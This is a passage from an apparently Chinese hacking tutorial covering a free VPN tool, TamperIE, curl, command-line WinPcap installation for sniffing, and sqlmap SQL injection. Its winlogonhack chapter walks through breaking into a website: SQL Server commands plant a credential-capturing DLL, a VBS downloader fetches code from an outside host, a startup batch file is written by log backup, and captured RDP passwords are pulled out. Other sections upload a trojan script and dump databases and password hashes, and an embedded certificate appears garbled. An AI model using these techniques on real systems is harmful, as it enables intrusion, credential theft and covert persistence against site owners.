> 它使用 IP 机制仿真出一个私有的广域网，即通过私有的隧道技术在公共数据网络上仿真一条点到点的专线技术。在非面向连接的公用 IP 网络上建立一个逻辑的、点对点的连接，称之为建立一个隧道，可以利用加密技术对经过隧道传输的数据进行加密，以保证数据仅被指定的发送者和接收者了解，从而保证了数据的私有性和安全性。

VPN 非常好用，但是我们普通人想要使用它可不容易，如果在国内用正常方法使用 VPN，需要在电信公司开通并交纳每月数千元的费用，一般人恐怕是不会这样做的。如果遇到非要用 VPN 的情况，我有一个小工具推荐给大家，它能自动搜索 VPN 并连接。

### 神奥之力

直接运行程序，一路 next 进行安装即可，如图 1，不过到了选择是否安装搜索条时最好不要装，我可不喜欢太多垃圾软件。

在出现如图 2 的界面时，把这些勾也去掉，然后下一步来到如图 3 的界面，这一步是指定安装路径，随便填写想要安装的路径。

安装完毕后，会在屏幕右下角看到一个盾牌型的小图标，可能是红色、黄色或绿色，表明当前的连接状态，这就说明安装成功了，如图 4。

在这个小图标上按鼠标右键：

- 选择“connect/on”连接到服务器；
- 选择“disconnect/off”表示断开连接；
- “show on restart”表示是否要在启动系统时自动运行，一般不选。

连接成功后，会在 IE 上出现一个连接成功的信息提示，如图 5，并且屏幕右下角的图标变成了绿色。现在从 IE 中访问网站，或是上 QQ，总之一切网络通信，都是通过这个 VPN 进行的了。

现在我们访问 `www.ip138.com`，网站上可以查到我们的 IP 地址，已经变了，如图 6。

经过查询，发现此 IP 在美国，如图 7。另外注意一下，这个工具在访问网站时会弹出左上角的广告条，毕竟天下没有真正免费的午餐。

如果安装该工具后不能访问网站或出现一些问题，我们可以用修改配置文件的办法进行修复。用记事本打开安装目录下 `config` 目录中的 `config.hvpn` 文件，在第二行写上 `dhcp-option DNS 208.67.222.222`，这个 IP 地址 `208.67.222.222` 可以用当地你所使用的 DNS 服务器 IP 地址替换，如图 8。

保存后就可以正常访问网站了，这个 VPN 的作用在于可以随心所欲地访问网站，一般用途下不用费心地去找代理了。

```txt
config.hvpn - 记事本
文件(F) 编辑(E) 格式(O) 查看(V) 帮助(H)
;version 1.17
dhcp-option DNS 208.67.222.222
client
dev tun
;route-noexec
persist-key
;persist-tun
nobind
mssfix 1400
ns-cert-type server
verb 1
mute 500
auth-user-pass
reneg-sec 0
;remap-usrl SIGTERM
inactive 1200 50000
hand-window 5
tls-exit
<ca>
-----BEGIN CERTIFICATE-----
MIIDbzCCAtigAwIBAgIJANGtJdZolHNaMA0GCSqGSIb3DQEBAUAMIGCMQswCQYD
VQQGEwJVUzELMAkGA1UECBMCSUwxETAPBgNVBAcTCFZpcmdpbmhMRMwEQYDVQQK
EwpOZWtJvIEdyb3VwMRYwFAYDVQQDEw1OZWtJvIEdyb3VwIENBIEJlcnRz
AQkBFhdpbmZvQG11dHJvZnZiLmNvbTAeFw0wNjAyMjEwMzE1MzhaFw0x
NjAyMjEwMzE1MzhaMIGCMQswCQYDVQQGEwJVUzELMAkGA1UECBMCSUwxETAP
BgNVBAcTCFZpcmdpbmhMRMwEQYDVQQKEwpOZWtJvIEdyb3VwIENBIEJlcnRz
BAcTCFZpcmdpbmhMRMwEQYDVQQKEwpOZWtJvIEdyb3VwIENBIEJlcnRz
```

## 二十七、TamperIE 工具的实战

在 hack 实验的过程中，我们会接触许许多多的工具，它们能大大加快我们的 hack 进度，能让一些很复杂的事情变得只需要输入几个命令那么简单。对于经验不深的菜鸟来说，他们对工具的两种态度让笔者认为都是不太健康的。

- 一是想避免使用工具，惧怕被戴上“脚本小子”被人看不起的帽子，凡事亲历亲为，天生排斥并 BS 一切工具及用工具完成的成果。如果搞不懂，就干脆回去学习编程。这种态度导致的最终结果是，要么最后发现编程很神奇，专心学习编程这门技术；或者因厌生倦，觉得利用工具完成的事都不是靠自己的本事，从而放弃对这门技术的钻研。
- 二是一切用工具，对于原理和操作方法一概不问，只要求工具操作简单、功能强大。当工具不能解决遇到的问题时，想到的不是从书本出发，对现象和技术深入地实验和思考，而是四处找高手。当然目的不是为了答疑解惑，而是寻求高手给点“独家”的神奇工具。

这两种态度中，第一种偏离了正常的轨道，工具能提高效率，我们不可能不使用。试想当面对无回显对比猜解表段字段时，每个表名和字段的每个字符都要进行五次以上的猜解，手工的工作量是很难想像的，而且很容易出错。第二种态度就更糟糕了，则根本失去了本身的学习意义，永远是个什么都不懂的门外汉。

对于工具，有就拿来用，没有的话，我们用手工来达到最终的目的，这是比较健康的心态。

这里给大家介绍一款新的工具，它所实现的功能我们通过别的方法也能实现，不过要费些事。用它能大大提高我们的效率，知识层次与你使用的工具是成正比的，掌握的技术越深，应该在很多方面体现到用“巧劲”。

该工具的名字叫 tamperIE，功能是拦截我们在本地浏览器上向服务器提交的数据，并允许我们进行修改后再发送出去。如果读者们还没有明白它带给我们的方便快捷之处在哪，我举个例子来说明。

有时我们在提交数据时会受到本地脚本的过滤，限制我们的输入字符，如图 1。

这一般是在网页的源代码中加入了过滤脚本，我们可以查看源代码，会看到 `"<SCRIPT LANGUAGE=javascript>"` 以下类似的字符，如图 2。

从返回的提示中可以看到，明显地过滤了用户名不为空等情况，以往的绕过方法是把源代码中的提交部分，即 `<form></form>` 之间的部分给保存下来，然后把相对路径补齐为绝对路径，在本地提交，如图 3。

这种老式的方法先不说保存和修改源码的麻烦，在一些有代码完整性检测或是禁止查看源码的网站中又得多费些功夫去找相应的解决办法。现在我们使用 TamperIE 就不用这么麻烦了，先来安装。工具很小，只有 238K，安装界面如图 4。

选择“I Agree”（我接受）后接着选择安装目录，如图 5，然后单击“Install”。

在安装后工具会简短地进行一下升级，如图 6，可能防火墙会提示有访问请求，不要怕是木马，允许访问。

安装完成后，打开 IE 浏览器，在顶部的图标中会看到 TamperIE 的图标，如图 7，说明安装成功。

点击这个图标，会出来一个很简易的选择菜单，一个是“Tamper with HTTP POSTS”，另一个是“Tamper with HTTP GETS”，功能分别是拦截 POST 数据包和 GET 数据包。

我的建议是，如果正常使用 IE 时，就把这两个选项都取消，免得时不时地弹出个窗口。当作安全检测时就都打上勾，如图 8，可以监控到当前页面向外发送包的情况。

来实际使用一下，选中上面所述的两个选项，从 IE 进入提交数据的页面，例如登录窗口。在输入框中输入要提交的数据，然后点击登录，如图 9。

这时在 IE 界面上出现了拦截框，要操作的地方很少，下面有两个标签按钮，如图 10。“Raw POST”中能看到数据被提交的格式，图中的数据是 `username=admin&pwhidden=718817188071879718787187771876&picnum=6395&saveUser=false&SecEx=false`，各个相应的参数和数值都一目了然，还有在页面中我们看不到的“picnum、saveUser、SexEx”等隐藏选项，在这里都被显示了出来。

现在我们来看看重点，选择“PrettyPOST”这个标签，在这里我们可以修改数据。操作很简单，点击相应的选项，然后在下面的框中进行修改即可，如图11。

另外，在下面的下拉菜单中还有几个最常见的进行安全测试的命令，如图12，省去了我们输出那一堆代码的麻烦。


图9


图10

在修改数据完成后需要发送，注意右上角的两个按钮，如图13，上面的是“发送修改后的数据”，下面的是“发送未修改的数据”。


图11


图12


图13

我们单击“Send altered data”，把修改的数据发送出去，相当于“确定”按钮的作用。如果修改后出错，想放弃提交修改的数据，并按原始数据提交，就单击“Send original data”，相当于“取消”按钮的作用。

怎么样，有了这个方便的与浏览器整合的小工具的帮助，进行安全测试时我们的效率就更高了。

## 二十八、Winlogonhack 的利用新路

嗅探通常被用来作为进入内网后的渗透方法，主要目的是用来搜集更多的信息，掌握更多的账号密码，作为向其它内网主机跨越的起点。换个通俗点的说法，渗透通常是用在敲开防守严密的大门之后，在门内的各个房间搜寻和游走的技巧。用个我发明的词，属于“二次入侵”技巧，在砸开那道“防守严密的大门”方面鲜有建树。不过只要条件适当，嗅探还是可以在直接的“拿站”中起决定性作用的，下面来看看这个例子。

有一种嗅探工具叫 winlogonhack，作用上有点单一，只能用来嗅探 3389 登录的账号密码，不过效果很好。我们来看看其说明文件中的使用步骤：

- 1. 执行 install.bat 安装，不用重启，当有 3389 登上时，自动加载 DLL 并且记录登录密码，保存为 boot.dat 文件。
- 2. 运行 ReadLog.bat 移动密码文件到当前目录。
- 3. 执行 Uninstall.bat，若 %systemroot%\system32\wminotify.dll 文件未能删除，那就重启再删。另外，这个工具没在 Windows 2000 测试过，有条件的朋友自行测试一下。

从以上简短的说明里我们得出两个信息：

- 第一、该工具可以不用重启而发生效果；
- 第二、该工具的使用非常简单，只用几个批处理就能操作。

这个工具里包含的主要文件有 wminotify.dll 及两个注册表文件 on.reg 和 un.reg。on.reg 是使用工具时的注册文件，un.reg 是在删除时才会用上的把注册表相关项替换回原值的文件，剩下的就是几个批处理文件了，如图1。


使用时，把 install.bat、Hookmsgina.dll 和 on.reg 放到同一目录下，然后执行 install.bat。我们来看看 install.bat 文件的代码：

```bat
@copy Hookmsgina.dll %systemroot%\system32\wminotify.dll
@regedit -s On.reg
@echo 已经安装...
@pause
```

分析一下流程，就是把 hookmsgina.dll 拷贝到 %systemroot%\system32\ 目录下（必须放到这个目录），然后执行“regedit -s on.reg”就能安装成功了。

之所以要对这个工具的简单操作做如此详细的流程分析，是我们要换一个技巧来利用它。按照开篇时讲的常规思路，这个工具只能用在拿到 webshell 后的二次入侵中，现在我们直接用它来拿下一个站的权限。

目标网站存在一个 mssql2000 的 sa 权限注入点，操作系统是 Windows 2003，开了 3389 远程桌面，如图2。

但是服务器的安全防护做得极好：

- 1、sa 权限下无法通过 xp_cmdshell、wscript.shell 等执行命令；
- 2、备份 webshell 成功，但是无法生成后缀为 asp 等脚本类型，生成其它后缀可以，可能是服务器上的防护软件作出了限制；
- 3、想使用沙盒模式执行命令，也未成功。


遇到这种情况，一般是复制 explorer.exe 替换掉 sethc.exe，利用迟滞键后门原理是比较通行的做法。如果这样还不行，我们还有别的思路：可以利用 hookmsgina.dll 直接截取 3389 账号密码。

我们的权限是无法像在 install.bat 文件中方便地使用 cmd 命令达到目的，好在手里有一个 sa 权限的注入点，利用它达到和 install.bat 里一样的操作就行了。

第一步是把 on.reg 和 hookmsgina.dll 上传到网站，没有 cmdshell 还真有点麻烦，因为通行的做法是使用 vbs 脚本下载。用下面的代码通过 cmdshell 写入到 iget.vbs 脚本文件：

```vb
echo Set x= CreateObject(^"Microsoft.XMLHTTP^");x.Open ^"GET^",LCase(WScript.Arguments(0)),0;x.Send();Set s = CreateObject(^"ADODB.Stream^");s.Mode = 3;s.Type = 1;s.Open();s.Write(x.responseBody);s.SaveToFile LCase(WScript.Arguments(1)),2 >iget.vbs
```

然后再通过 cmdshell 执行命令：iget.vbs http://www.nohack.com/1.exe，接着远程连接到服务器上，把这个工具上传上去。

这里我们不能使用 cmdshell，还好该网站的上传过滤不严格，除了 asp、aspx、asa、php 等几种常见脚本文件后缀不允许上传外（另一种常见情况是上传了脚本但目录没有执行权限），其它后缀的文件都可以通过网站本身的上传功能传递上去，如图3。

www.nohack.cn


上传成功后不要想能从 IE 中访问到 on.reg 和 hookmsgina.dll 这两个文件，很多新手常犯这种错误。在 Windows 2003 中，未允许后缀名的文件是从 IE 中访问不到的，会提示找不到文件，千万不要以为没上传成功或是被杀了。

我们可以从注入工具读取 web 上传目录，如图4，看到存在这两个文件。

第二步是把这两个文件复制到 %systemroot%\system32\ 目录下，使用语句如下：

```sql
复制reg文件
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'d:\website\jiaoliu\upfile\on.reg','c:\windows\system32\on.reg';
```

```sql
复制dll文件
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'d:\website\jiaoliu\upfile\hookmsgina.dll','c:\windows\system32\wminotify.dll'
```

两个文件复制到位，下一步是想办法让系统来执行“regedit -s on.reg”命令把注册表文件导入，采用的方法是利用以前那个导入 bat 到启动项执行命令的办法。

可能有读者会问，为什么不直接用导入启动项的批处理建管理员账号登录呢？经过测试，可能是服务器做了策略限制，不允许新建管理员账号。那个备份启动项的方法可能许多读者还不熟悉，这里全景地展示一遍。

要执行的语句很简单，比如 regedit -s on.reg，我们只要把这个语句用 log 备份的方法备份到启动目录中，并为 bat 后缀。当电脑重启时，命令就会被执行。


“Regedit -s on.reg”命令在写入数据库之前，要先加两行空格进行转换，不然备份出 bat 后会出错，如图5。

使用转换工具将命令进行转换，ASCII 码为“1310131011410110310110010511632451153211111046114101103”，注意在加入语句时把字符中间的空格去掉。

下面开始 log 差异备份，相信读者们都很熟悉了。第一步输入语句：alter database dataname set RECOVERY FULL。

第二步建表，语句：create table cmd (a image)。

第三步先把数据库备份一次，这样在第五步备份 bat 时，只会备份第四步时写入的命令而没有太多其它杂乱信息，好处是 bat 比较容易执行成功。

```sql
declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=0x63003A005C00770031002E00620061006B00 backup log @a to disk=@s with init
```


0x63003A005C00770031002E00620061006B00 是备份数据库指定路径 c:\w1.bak 的 16 进制编码。

第四步往表里写入命令：

```sql
insert into cmd (a) values (0x1310131011410110310110010511632451153211111046114101103)
```

最后一步，把表中的内容备份到“C:\Documents and Settings\All Users\「开始」菜单\程序\启动目录”：

```sql
declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=0x43003a005c0044006f00630075006d0065006e0074007300200061006e0064002000530065007400740069006e00670073005c0041006c006c002000550073006500720073005c00fffa1b800ffffbfaa00ffffcabc00fffa1b900fffb2cb00fffb5a5005c00fffb3cc00ffd0f2005c00ffc6f400fffb6af00 backup log @a to disk=@s
```

语句中那串 16 进制字符就是“C:\Documents and Settings\All Users\「开始」菜单\程序\启动目录”转换后的字符。

完成后就等待服务器重启吧，一般三天或一周服务器肯定会重启一次的。待重启后就等待管理员从远程登录吧，如果登录过，会在“c:\windows\system32\”目录下生成 boot.dat 文件，把它复制到 web 目录下存为 mdb 后缀就可以下载了，语句如下：


```sql
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\boot.dat','d:\website\jiaoliu\upfile\boo.mdb'
```

下载后用记事本打开它就能找到记录的 3389 登录密码，如图6。

最后提醒大家一句，加载了 dll 后，管理员在登录时可能会出现错误提示，虽然能记录密码，但是这会引起管理员怀疑，所以最好马上清掉记录器，上传 un.reg 文件并执行命令“regedit -s un.reg”即可。

我们其实也可以对该方法进行一些改进，比如复制也用批处理实现，并且通过批处理将记录密码的 readlog.dat 复制回 web 目录下载，我们就可以不使用 sa 权限的 exec sp_oacreate，而只用 db_owner 的 run 目录写权限达到目的，进一步扩展了该方法的应用。从“窃听器”变“敲门砖”，小小思路的创新让很多事情变得不再那么难。

## 二十九、CURL 使用攻略

Curl 是一款在 cmd 模式下运行的网络工具，它相当于一个命令行下的黑客浏览器和高级的 nc，其功能的强大之处在于拥有优越的灵活性。比如它能伪装成任何网络浏览器发送数据，并自己定制发送数据的次数和数量。有时在溢出的初步测试中，需要发送上千甚至上万个字符到远程服务器，通常也用 Curl。


```bash
C:\Users\pc>curl http://www.google.com
<!doctype html><html><head><meta http-equiv="content-type" content="text/html; charset=ISO-8859-1"><title>Google</title><script>window.google={kEI:"_KE_SrCgA43S...window.google.jsrt_kill=1;
```

图2

如果说“nc 是黑客工具中的瑞士军刀”，那么 Curl 简直就是一套全副武装的单兵武器，它的功能远远胜过 nc，但是有一点影响了其普及，因为 Curl 只能在 linux 下使用。不过现在好了，有人修改了一个能在 Windows 下运行的版本，包括一个 exe 文件和三个 dll 文件，如图1。下面来实际操作一下，看看这个工具的强大功能。

一般的访问网站、下载文件，对于 Curl 来说是再普通不过的常规操作了，直接使用命令：curl http://www.nohack.com，执行结果如图2。

不过这条命令只能用来查看网站回显，当回显信息太多时会显示不完全，所以需要分页显示，命令为：curl -o nohack.html http://www.nohack.com。


这个 -o 参数还可以用来下载文件，比如：curl -o 2.exe http://www.nohack.com/1.exe，就是把 http://www.nohack.com/1.exe 下载保存为 2.exe。

如图3，是用 -o 参数访问 http://www.google.com 后的结果。大家可以看到这是个英文的网站，这就是我们真正访问的 www.google.com。平常见到的中文版 Google 其实是这个英文版 Google 被访问后自动分配过去的，很多网站都有类似的系统，用这个工具连接一下能找到最初的原始页面。

另外，这个工具还能用代理访问链接，这是 nc 没有的功能。我们只要在参数 -x 后面加代理地址和端口就行了，比如：curl -x 202.103.1.117:8080 -o test.html http://www.nohack.com。

使用 -D 参数（大写 D）能获得当前 cookie，比如：curl -D cookie1.txt http://www.nohack.com，这在 cookie 的安全方面检测时十分重要。

如果要发送 POST 格式的数据包，是用参数 -d 提交（小写 d），比如：curl -d "page=1&id=12345" http://www.nohack.com，中间的“page=1&id=12345”就是 POST 提交的数据。

使用 -b 参数则可以把修改好后的 cookie 发送出去，这样就能登录需要 cookie 的网站。方法是先把 cookie 保存在一个文本文件里，然后用 -b 参数就能在登录中发送出去，比如：curl -b cookie2.txt http://www.nohack.com。

该工具还能模拟其它浏览器的访问 banner，通常情况下大家都用 IE 浏览器，如果一些网站只能用 Netscape 等访问，IE 就无法登录了，这时我们可以用 Curl 制造一个假的标识访问网站，这需要用到参数 -A，比如：curl -A "Mozilla/4.73 [en] (X11; U; Linux 2.2; 15 i686)" http://www.nohack.com，-A 参数后的就是浏览器的标识符。

Curl 还有一手绝活，是可以自定义 POST 上传。以前当我们遇到脚本检测时，需要把页面保存为 html 文件在本地提交，当有了 Curl 时就不必这样，可以直接 POST 提交。

比如一个 POST 表单的代码如下：

```html
<form method="POST" enctype="multipart/form-data" action="http://www.nohack.com/upload.asp">
<input type=file name=upload>
<input type=submit name=hk value="up">
</form>
```

```bash
curl -F upload=c:\muma.asp -F hk=up http://www.nohack.com/upload.asp
```

c:\muma.asp 是本地文件的地址，通过 upload 参数提交上去，后面第 2 个“-F”后的“hk=up”是把代码中“<input type=submit name=hk value="up">”参数“hk”的值“up”进行提交。表单提交的各个参数是用 Curl 中的参数 -F 发送的。

还有一项功能是 nc 也无法做到。


图4

www.nohack.cn访问需要证书才能访问的网站，命令是：`curl -E c:\ssl.pem https://www.nohack.com`。Curl 还可以当作下载器使用，并且能自定义保存文件名，还拥有批量下载、多线程下载、断点续传下载等功能，这些就请读者们自己研究吧。

以上的介绍还只是这个工具功能的冰山一角，运行 `curl --help` 能看到更详细的帮助信息，如图4。

顺便说一下，该工具还支持 IPv6 规则，因此其功能在相当长的时间内都不会过时，是将来可以取代 nc 的第二代“黑客瑞士军刀”。

## 三十、构建嗅探的基石之 WinPcap

在黑客技术中，以前曾经属于比较高端的在内网中进行渗透的嗅探、ARP 挂马等技术已经日益平民化，一些非常好用的工具不断出现与公开，使得很多菜鸟朋友也能使用它们由一台入口主机成功地渗透影响到整个局域网。不过这一节内容并不是介绍如何在内网中进行嗅探，而是讲一个很多人可能没有引起注意的问题，就是关于嗅探所依赖的前提条件。

嗅探需要在特定的网络条件、用户或相关的权限下才能进行，这种技术层面的问题在这里也不作深入探讨。有一个必要条件是很多初学者没有注意的，那就是嗅探需要底层驱动包 WinPcap 的支持。如果你进行嗅探的主机上没有安装这个驱动包，那么你的嗅探工具可能出错，或者嗅探不到任何数据。

换言之，如果我们要进行嗅探的主机上没有安装 WinPcap，就需要先安装 WinPcap 才能进行嗅探。如果是在图形界面下，安装一个软件不是难事，只要把 WinPcap 包上传到服务器上进行安装即可。如果嗅探工具没有特别详细地指定版本，推荐大家用 3.1 版的 WinPcap，因为比较稳定。


安装图形界面的 WinPcap 没有什么特别的，只要一直点击“NEXT”（下一步）就可以了，如图1。不过我们要考虑一种情况，就是在渗透时很难有这么好的条件进行图形界面式的安装。很多时候仅仅只是通过一个溢出获得了一个 cmdshell，想要在这台溢出的肉机上发起嗅探，没有安装 WinPcap 是不行的。这种条件下如果要再提权获得一个图形操作界面又太麻烦，而且可能会有意想不到的困难，此时我们就需要进行命令行安装 WinPcap。

命令行下安装 WinPcap 分以下几个步骤：

- 1、安装需要用到的文件有：Packet.dll、WanPacket.dll、wpcap.dll、pthreadVC.dll、npf.sys（在正常安装 WinPcap 3.1 后，这些文件存放在 `%windir%\system` 和 `%windir%\system32\drivers` 中），如图2。

| 名称 | 大小 | 类型 | 修改日期 |
|---|---|---|---|
| npf.sys | 32 KB | 系统文件 | 2009-6-3 4:26 |
| packet.dll | 32 KB | 应用程序扩展 | 2001-7-26 16:20 |
| pthreadVC.dll | 53 KB | 应用程序扩展 | 2009-6-3 4:26 |
| wanpacket.dll | 60 KB | 应用程序扩展 | 2009-6-3 4:26 |
| wpcap.dll | 128 KB | 应用程序扩展 | 2001-7-26 16:26 |

- 2、将文件 Packet.dll、WanPacket.dll、wpcap.dll、pthreadVC.dll 复制到 `%windir%\system32` 中，将 npf.sys 复制到 `%windir%\system32\drivers` 中。
- 3、用 SC.exe 将 npf.sys 添加为驱动，当然你也可以用别的工具完成这一步。不过个人强烈推荐使用 sc 这个 Windows 自带的强大工具，它一般在 Windows 的 system32 目录下，其说明如图3，功能相当强大，不是三言两语就能说清楚的，完全可以配上一本说明小册子。  
  我们执行命令：`sc create npf binpath= system32\drivers\npf.sys type= kernel start= demand`，结果如图4。
- 4、卸载方法：先停止驱动 npf（命令为：`net stop npf`），再删除驱动（命令为：`sc delete npf`），最后删除上文提到的 5 个文件，如图5。  
  当删除 npf 服务之后，再用 `net start npf` 命令试图启动服务，提示“服务名无效”，如图6，说明删除成功。

现在我们已经通过手工安装 WinPcap 成功，接着就可以在这个 cmdshell 上安装嗅探工具进行嗅探了。这里讲述的用 sc 安装工具的技巧我们还可以举一反三地应用到其他地方，当遇到某些工具是图形化安装而未获得图形化操作权限时，不要放弃，明白了安装的过程，就能用命令安装成功。

```text
描述:
sc 是用于与服务控制管理器通信的命令行程序。
用法:
sc <server> [command] [service name] <option1> <option2>...
选项 <server> 的格式为 "\\ServerName"
可以键入 "sc [command]" 以获得命令的进一步帮助
命令:
query----------------查询服务的状态。
queryex--------------查询服务的扩展状态。
start----------------启动服务。
pause----------------发送 PAUSE 控制请求到服务。
interrogate----------发送 INTERROGATE 控制请求到服务。
continue-------------发送 CONTINUE 控制请求到服务。
stop-----------------发送 STOP 请求到服务。
config---------------<永久地>更改服务的配置。
description----------更改服务的描述。
failure--------------更改服务失败时所进行的操作。
qc-------------------查询服务的配置信息。
qdescription---------查询服务的描述。
qfailure-------------查询失败服务所进行的操作。
delete---------------<从注册表>删除服务。
create---------------创建服务<将其添加到注册表>。
control--------------发送控制到服务。
sdshow---------------显示服务的安全描述符。
sdset----------------设置服务的安全描述符。
GetDisplayName-------获取服务的 DisplayName。
GetKeyName-----------获取服务的 ServiceKeyName。
EnumDepend-----------枚举服务的依存关系。
下列命令不查询服务名称:
sc <server> <command> <option>
boot-----------------<ok | bad> 表明是否将上一次启动保存为最后所知的好的启动配置
Lock-----------------锁定服务数据库
QueryLock------------查询 SCManager 数据库的 LockStatus
示例:
sc start MyService
```

```text
C:\Documents and Settings\Administrator>sc create npf binpath= system32\drivers\npf.sys type= kernel start= demand
[SC] CreateService 成功
C:\Documents and Settings\Administrator>
```

```text
C:\Documents and Settings\Administrator>net stop npf
npf 服务已成功停止。
C:\Documents and Settings\Administrator>
```

```text
C:\Documents and Settings\Administrator>sc delete npf
[SC] DeleteService 成功

C:\Documents and Settings\Administrator>net start npf
服务名无效。

请键入 NET HELPMSG 2185 以获得更多的帮助。

C:\Documents and Settings\Administrator>
```

## 三十一、来自国外的 SQL 注入工具 sqlmap

学习网络安全知识一段时间后，我们应该有更长远的目光。如果你的英文足够好，多关注一下国外的网络安全技术，是让你的技术取得长足进步的一条捷径。客观地说，国内的安全技术与西方都还存在一定的落差，国外已经成熟的技术在半年或一年之后才会在国内开始流行，部分国内的顶尖“牛人”就是在长期的国外技术论坛浸泡中率先接触了国内还没有的技术而成长起来的。

对于在国内还威胁很大的 SQL 注入技术，国外也还未到“山穷水尽”的地步，它们的技术也在发展中。今天给大家介绍的就是一款来自国外的 SQL 注入工具，名字叫 sqlmap。

与国内的情况差不多，国外的 SQL 注入工具也挺多的，但是大部分功能也不怎么强，所以一些普通的工具就不给大家介绍了，如图1的 Cmfsql 及如图2的 Sfxsql 都是国外较为出名的 SQL 注入工具。

这里我们介绍的 sqlmap 工具还是有一些自己的特色，我特别喜欢的是它的 cookie 登录注入、自定义注入语句和保存注入进度功能。这几个功能是大多数注入工具还不具有的，但它们的确能大大方便我们。除此之外，它还有广泛的适用性，能支持目前大多数数据库，如 access、mssql、mysql、oracle 等。


首先给大家介绍一下这个工具的基本情况，它原本是 Linux 下的 Python 工具，国内的高手为了方便大家，改写出了一个 Windows 版，其中包括两个 exe 程序，主要使用的是 sqlmap.exe，w9popen.exe 是在 Windows 98 或 Windows 95 下使用的，如图3。相信现在很少有这么古董的系统了，不用去管它。


先把这些文件都解压到 sqlmap 目录，不过别急着使用，如果现在就急着用程序进行注入，会出现以下错误提示，如图4。

`[03:14:12] [ERROR] unable to read XML file './xml/queries.xml'`

很明显，是缺少某个文件，这是因为牛人在编译这个程序为 Windows 下的工具时留了一手，没有把程序运行要使用的支持库文件包提供给我们。一般重量级的工具都会遭遇这种被人刻意留下的“BUG”，牛人们是不希望强有力的工具被菜鸟四处滥用的，所以学好技术才能解决问题，否则在一定的高度就会遇到高手们给菜鸟设置的障碍，只有积累更多的知识才能让你突破。


我们从网上搜索下载 sqlmap 的 Linux 版本，得到了一个 `sqlmap-0.7rc1.tar.gz` 文件，这是 sqlmap 的最新版本。把压缩包下的“doc、extra、lib、plugins、shell、txt、udf、xml”各个目录都解压到刚才建立的 sqlmap 目录下，如图5。

### 神兵之力

库文件夹解压完后就可以正常使用了。该工具是一个命令行下的 SQL 注入工具，标准的使用命令为：`sqlmap -u "注入链接" -- 其它参数或命令`

注意后面的参数或命令，如果有提交数据，前面要加两个横杠，实例如下：

```text
--proxy http://127.0.0.1:8118
--string "STRING_ON_TRUE_PAGE"
--cookie "COOKIE_VALUE"
```


上述三个参数后面都有值提交，所以 proxy、string、cookie 三个参数前都有两个横杠。

最基本的对注入链接进行检测，我们用的命令是：`sqlmap -u "http://www.nohack.com/testsql.asp?id=1" -v 1`

`-v 1` 参数表示回显出注入过程。如果想回显简单、容易辨认一些，可以不用这个参数。如果是屏蔽了回显，需要用关键词的返回不同来判断结果，也就是常说的“折半注入”，比如用 `--string "nohack"` 输入一个正确页面存在的关键字作为判断依据，这里是举例说明以“nohack”作为关键字。


如图6，工具分别用 mysql、oracle、postgreSQL 等数据库的注入方法对数据库进行检测，在最后一行的回显中得出结果 `remote DBMS: Microsoft SQL Server`，说明注入点是 mssql 的。

当注入链接中包含有两个参数时，可以用 `-p` 开关选择要注入的参数，比如要对链接 `http://www.nohack.com/testsql.asp?id=1&name=a` 进行检测 id 是否存在注入点，可以用命令：`sqlmap -u "http://www.nohack.com/testsql.asp?id=1&name=a" -v 1 -p "id"`。

有些网站的注入点出现在登录之后才能访问的链接中，这就需要先登录网站，然后抓取 cookie。在工具中可以用 `--cookie "cookie 内容"` 参数，注意这里的 cookie 参数前就用了两个横杠了，如图7。

图7中的：

```text
__utma=230111744.606018176.1241569655.1241569655.1241569655.1;
__utmz=230111744.1241569655.1.1.utmccn=(direct)|utmcsr=(direct)|utmcmd=(none);
```

这串字符串就是该网站的 cookie。

工具正确识别注入点之后，我们就要相应地猜出包含的数据库、各个库中的表、各个表中的字段、字段中的数据。

查询包含哪些数据库用的命令是：`sqlmap -u "http://www.nohack.com/testsql.asp?id=1" -v 1 --dbs`，执行结果如图8。

查询数据库中有哪些表，使用的命令为：`sqlmap -u "http://www.nohack.com/testsql.asp?id=1" --tables -D "数据库名"`，注意数据库名前面的参数 D 是需要大写的。

查询表中的字段，使用的命令为：`sqlmap -u "http://www.nohack.com/testsql.asp?id=1" --columns -T "表名" -D "数据库名"`。

查询字段数据，使用的命令为：`sqlmap -u "http://www.nohack.com/testsql.asp?id=1" --dump --columns "字段名" -T "表名" -D "数据库名"`。

要列出表中的所有数据，使用的命令为：`sqlmap -u "http://www.nohack.com/testsql.asp?id=1" --dump -T "表名" -D "数据库名"`。


图7


图8

注意，在语句中字段所在的数据库名、表名都需要用参数指定。通过以上命令的使用，我们大概明白所有数据如下：

- Database: test
- Table: users

`[5 entries]`

| id | name | surname |
|---|---|---|
| 1 | luther | blissett |
| 2 | fluffy | bunny |
| 3 | wu | ming |
| 4 | ma | user agent header |
| 5 | NULL | nameisnull |

该工具还有国内许多同类工具通常不具备的功能，比如列出当前数据库的用户名和密码 hash（请注意，只是哈希，能否解密是另一回事了）。其实很多读者可能都知道，只不过是通过查询相关的系统表得到这些数据，现在有了工具的支持毕竟方便了很多，命令为：`sqlmap -u "http://www.nohack.com/testsql.asp?id=1" --passwords`。


图9

成功率比较高的 union 注入在这款工具中也可以实现，不过目前看来 bug 还比较多，笔者在使用时常常出现错误。不过这个工具能准确地判断是否能进行 union 注入和构造出语句原型，然后再自己构造 SQL 语句就能正常利用 union 注入了。

我们先来检测当前链接，使用命令：`sqlmap -u "http://www.nohack.com/testsql.asp?id=1" --union-check`，如图9。


图10

测试成功了，接下来我们用 union 查询的方法来获得数据，命令为：`sqlmap -u "http://www.nohack.com/testsql.asp?id=1" --union-use`，后面跟着注入选项就行了，例如：`sqlmap -u "http://www.nohack.com/testsql.asp?id=1" --union-use --dbs`，这样就可以用 union 方法列出系统中所有的数据库。

该工具还有一项独特的功能，就是可以把注入进度保存起来，下次直接导入，接着上次……```text
C:\Users\pc\sqlmap>sqlmap -u "http://www...com/jncook.asp?jmdcw=1" -v 1 --tables -D "menglu" -o "sqlmap.txt" --resume

sqlmap/0.6-rc5 coded by inquis <bernardo.damele@gmail.com>
and belch <daniele.bellucci@gmail.com>

[*] starting at: 10:12:00

[10:12:00] [INFO] resuming remote DBMS 'Microsoft SQL Server' from text file
[10:12:02] [INFO] testing if the url is stable, wait a few seconds
[10:12:07] [INFO] url is stable
